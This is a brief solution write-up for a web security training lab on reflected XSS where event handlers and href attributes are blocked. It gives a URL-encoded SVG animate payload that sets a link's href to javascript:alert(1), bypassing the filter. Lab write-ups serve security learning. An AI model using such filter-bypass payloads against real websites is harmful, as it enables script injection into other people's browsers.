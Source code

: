 # Lab: Reflected XSS with event handlers and href attributes blocked

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/70a12b3b-a2d8-41d0-beb6-30acf023d164)

## Solution

Append `search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E` to the url to solve the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/86fe5df7-d5bd-420a-b083-61f1b68187c9)
